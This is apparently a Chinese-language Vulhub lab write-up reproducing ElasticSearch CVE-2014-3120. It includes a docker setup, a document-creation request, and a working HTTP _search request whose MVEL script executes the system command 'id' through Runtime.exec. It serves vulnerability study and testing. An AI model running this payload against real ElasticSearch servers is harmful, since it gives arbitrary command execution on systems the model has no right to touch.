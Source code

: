 # ElasticSearch 远程代码执行漏洞（CVE-2014-3120）

ElasticSearch 是一个分布式的RESTful搜索和分析引擎。

ElasticSearch 1.2版本之前默认启用了动态脚本功能，攻击者可以通过`_search`请求的`source`参数执行任意MVEL表达式和Java代码。MVEL是一种基于Java的动态脚本语言，下面是一个使用MVEL执行系统命令的示例代码：

```java
import java.io.*;
new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

参考链接：

- <https://bou.ke/blog/elasticsearch-rce/>
- <https://www.exploit-db.com/exploits/33370>

## 漏洞复现

执行以下命令启动一个1.1.1版本的ElasticSearch服务器：

```
docker compose up -d
```

环境启动后，可以通过`http://your-ip:9200`访问ElasticSearch API。

## 漏洞复现

此漏洞利用需要索引中至少存在一个文档。首先，创建一个文档：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "vulhub"
}
```

然后，发送包含恶意MVEL脚本的请求来执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

命令执行结果将在响应中返回：

![](1.png)
